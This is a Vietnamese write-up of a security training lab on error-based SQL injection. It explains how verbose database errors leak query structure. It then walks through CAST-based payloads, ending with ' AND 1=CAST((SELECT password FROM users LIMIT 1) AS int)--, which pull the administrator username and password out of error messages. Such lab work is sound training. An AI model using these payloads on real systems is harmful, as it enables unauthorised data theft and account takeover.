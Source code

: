 # Extracting sensitive data via verbose SQL error messages

Cấu hình sai của cơ sở dữ liệu đôi khi dẫn đến việc hiển thị **thông báo lỗi chi tiết** (verbose error messages). Những thông tin này có thể hữu ích cho kẻ tấn công. Ví dụ, xem xét thông báo lỗi sau, xuất hiện khi chèn một dấu nháy đơn **(')** vào **tham số id**:

    Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char

Thông báo này tiết lộ **toàn bộ truy vấn SQL** mà ứng dụng đã tạo từ đầu vào. Có thể thấy rằng đầu vào đang được chèn vào một chuỗi được bao bọc bởi dấu nháy đơn trong câu lệnh **WHERE**.

Thông tin này giúp kẻ tấn công dễ dàng hơn trong việc xây dựng một truy vấn hợp lệ chứa payload độc hại. Ví dụ, kẻ tấn công có thể sử dụng ký tự chú thích **(--)** để vô hiệu hóa phần còn lại của truy vấn, từ đó tránh lỗi cú pháp do dấu nháy đơn dư thừa gây ra.

# Extracting sensitive data via verbose SQL error messages - Continued

Đôi khi, kẻ tấn công có thể **khiến ứng dụng tạo ra một thông báo lỗi chứa dữ liệu được trả về từ truy vấn**. Điều này biến một lỗ hổng SQL injection dạng mù (blind SQL injection) thành có thể quan sát được (visible SQL injection).

Một cách để làm điều này là sử dụng hàm **CAST()**, cho phép chuyển đổi kiểu dữ liệu. Ví dụ, giả sử truy vấn chứa câu lệnh sau:

    CAST((SELECT example_column FROM example_table) AS int)

Thông thường, dữ liệu mà kẻ tấn công muốn đọc là **chuỗi ký tự** (string). Nếu cố gắng chuyển đổi chuỗi này sang một kiểu dữ liệu không tương thích, chẳng hạn như **số nguyên** (int), truy vấn có thể gây ra lỗi tương tự như sau:

    ERROR: invalid input syntax for type integer: "Example data"

Loại truy vấn này cũng có thể hữu ích nếu ứng dụng **giới hạn độ dài ký tự**, khiến kẻ tấn công không thể sử dụng các phương pháp như **phản hồi có điều kiện (conditional responses)** để khai thác SQL injection.

# Lab: Visible error-based SQL injection

![img](161)

Truy cập lab:

![img](162)


Chọn category Pets và intercept request trong Burp Suite: 

![img](163)

=> Website sử dụng Tracking cookie để theo dõi hành vi của người dùng. Thử thêm dấu **'** vào giá trị TrackingId: 

![img](164)

Send request và quan sát response: 

![img](165)

=> Website trả về thông báo lỗi *Unterminated string literal started at position 53 in SQL SELECT * FROM tracking WHERE id = 'aLFRLQuf2ZMDGk4B' '. Expected  char*. 

Thử thêm **'--**:

![img](166)

Send request, quan sát response: 

![img](167)

=> Website không trả về lỗi. Thử chèn **' AND CAST((SELECT 1) AS int)--**: 

![img](168)

Send request, quan sát response: 

![img](169)

=> Website trả về lỗi *ERROR: argument of AND must be type boolean, not type integer Position: 63*

=> Điều kiện **AND** phải là biểu thức boolean. Thử chèn **' AND 1=CAST((SELECT 1) AS int)--**: 

![img](170)

Send request, quan sát response: 

![img](171)

=> Website không trả về lỗi => đây là 1 truy vấn hợp lệ. Chỉnh sửa truy vấn thành **' AND 1=CAST((SELECT username FROM users) AS int)--**:

![img](172)

Send request, quan sát response: 

![img](173)

=> Website trả về lỗi *Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = 'aLFRLQuf2ZMDGk4B' AND 1=CAST((SELECT username FROM users) AS'. Expected  char*

Nhận thấy truy vấn chèn đang bị rút gọn, có thể do giới hạn ký tự => không có phần chỉ định comment (--). Xóa giá trị TrackingId và gửi lại request: 

![img](174)

Send request, quan sát response: 

![img](175)

=> Website trả về lỗi *ERROR: more than one row returned by a subquery used as an expression*. 

=> Thông báo lỗi cho thấy truy vấn đã được chạy đúng, nhưng vẫn gặp lỗi vì nó trả lại nhiều hơn một hàng.

Chỉnh sửa lại truy vấn để nó chỉ trả về 1 hàng: **' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--**:

![img](176)

Send request, quan sát response: 

![img](177)

=> Website trả về thông báo lỗi *ERROR: invalid input syntax for type integer: "administrator"*

=> Thông báo lỗi tiết lộ tên người dùng đầu tiên từ bảng users là **administrator**.

Chỉnh sửa payload thành **' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--**: 

![img](178)

Send request, quan sát response: 

![img](179)

=> Tìm ra password của người dùng đầu tiên: l6pt2ypstrizz9jrjtmr

Login tài khoản administrator và solved bài lab: 

![img](180)











